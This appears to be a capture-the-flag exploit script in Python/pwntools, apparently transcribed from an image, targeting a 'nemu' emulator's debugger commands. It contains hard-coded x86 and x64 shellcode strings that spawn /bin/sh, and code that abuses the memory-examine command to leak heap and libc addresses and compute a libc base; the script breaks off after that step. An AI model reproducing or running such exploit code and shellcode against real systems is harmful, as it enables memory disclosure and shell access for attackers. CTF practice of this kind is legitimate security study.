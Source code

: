 ```Python
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))

        
def dbgc(addr):
        gdb.attach(p,"b*" + hex(addr) +"\n c")

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def choice(idx):
        sla("(nemu) ",str(idx))

def info(chi):
    choice('info '+chi)
        
    # sa("content?",cno)

def sis(n):
        choice('si '+str(n))

def xmem(n,addr):
        choice('x '+str(n)+" "+(addr))

def set(addr,val):
        choice('set '+ str(addr)+' ' + str(val))
        # sla("Index: ",idx)

def exp():
    
    

        #debug([0x7B9])

    info('r')
    # set()
    # set(0xffffffffffff,0x01234d0)
    pmem = 0x6a3b80

    sis(7)
    xmem(10,str(8000030))
    ru("0x08000040\t0x")
    heap = int(r(8),16) + 0x9c8c000 - 0x9c8d130
    lg('heap',heap)


    xmem(10,hex(heap+0x1508-pmem)[2:])
    ru("\t0x")
    low = int(r(8),16)
    ru("\t0x")
    high = int(r(8),16)*0x100000000
    # lg('higi',high)
    # lg('low',low)
    data = high+low
    lg('data',data)

    addr = data - 0x00007f651f1a9ce8 + 0x00007f651ede5000
```